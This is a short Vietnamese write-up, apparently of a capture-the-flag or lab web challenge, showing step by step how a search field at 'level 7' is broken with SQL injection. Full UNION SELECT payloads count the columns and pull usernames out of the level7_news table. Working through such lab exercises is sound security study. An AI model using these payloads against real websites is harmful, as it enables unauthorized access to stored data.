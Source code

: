 ## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 8/5/2022

- Ta thử tìm kiếm với dữ liệu bất kì như <code>alo</code>. Thì trang web không trả về bất kì kết quả nào.
  
  ![CHESSE](img/33.png)

- Ta thử tìm kiếm với <code>alo'</code>
  
  ![CHESSE](img/34.png)

- Lúc này, ta nhận thấy ngoài bảng <code>level7_news</code> đã được gợi ý, còn có bảng <code>level7_texts</code> xuất hiện.
- Ta sẽ thử tấn công union để tìm số cột với <code>alo%') UNION SELECT 1,2,3,4,5 FROM level7_news news, level7_texts text where ('%'='</code>
  
  ![CHESSE](img/35.png)

- Kết quả trả về số cột sai. Nên ta sẽ giảm số cột xuống. Và khi số cột là 4 đã xuất hiện 2 cột dễ tổn thương là 3 và 4 <code>alo%') UNION SELECT 1,2,3,4 FROM level7_news news, level7_texts text where ('%'='</code>.
  
  ![CHESSE](img/36.png)

- Ta sẽ thử lấy thông tin từ cột 4 với <code>alo%') union select 1,2,3,news.autor FROM level7_news news, level7_texts text where ('%'='</code>
  
  ![CHESSE](img/37.png)

- Ta thử check từng user hiện xuất hiện và thành công với user <code>TestUserforg00gle</code>
  
  ![CHESSE](img/38.png)